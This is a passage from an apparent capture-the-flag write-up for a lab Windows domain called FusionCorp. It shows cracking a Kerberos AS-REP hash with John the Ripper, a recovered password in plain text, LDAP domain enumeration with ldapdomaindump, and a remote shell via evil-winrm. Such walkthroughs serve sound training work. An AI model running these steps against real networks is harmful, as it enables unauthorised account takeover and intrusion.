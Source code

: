 <br>
<h3>John the Ripper</h3>
<p>

- <code>lparker</code> : <code>!!abbylvzsvs2k6!</code>
</p>

```bash
:~/FusionCorp# john hash --wordlist=/usr/share/wordlists/rockyou.txt
...
**************** ($krb5asrep$23$lparker@FUSION.CORP)
...
Session completed. 
```

<br>

<h3>ldapdomaindump</h3>

```bash
:~/FusionCorp# ldapdomaindump TargetIP -u 'fusion.corp\lparker' -p '****************' --no-json --no-grep
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

```bash
:~/FusionCorp# ls
domain_computers_by_os.html  domain_groups.html  domain_trusts.html          domain_users.html
domain_computers.html        domain_policy.html  domain_users_by_group.html
```

<br>

<p><code>domain_computer.html</code></p>

<img width="1185" height="193" alt="image" src="https://github.com/user-attachments/assets/dbb0cd9b-30e4-4c8e-95cf-f06b562234fe" />

<p><code>domain_users.html</code></p>

<img width="1661" height="425" alt="image" src="https://github.com/user-attachments/assets/35f35f7c-ade6-478b-8311-5b1d1faf9d55" />

<p><code>domain_users_by_group.html</code></p>

<img width="1659" height="308" alt="image" src="https://github.com/user-attachments/assets/31eab71a-c379-472e-a162-1d40a3e0dc71" />

<img width="1653" height="601" alt="image" src="https://github.com/user-attachments/assets/533a9766-f97d-4fb1-83aa-c928a93b34e3" />



<br>
<h3>evil-winrm</h3>

```bash
:~/FusionCorp# evil-winrm -u lparker -p '****************' -i TargetIP
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\lparker\Documents> 
```
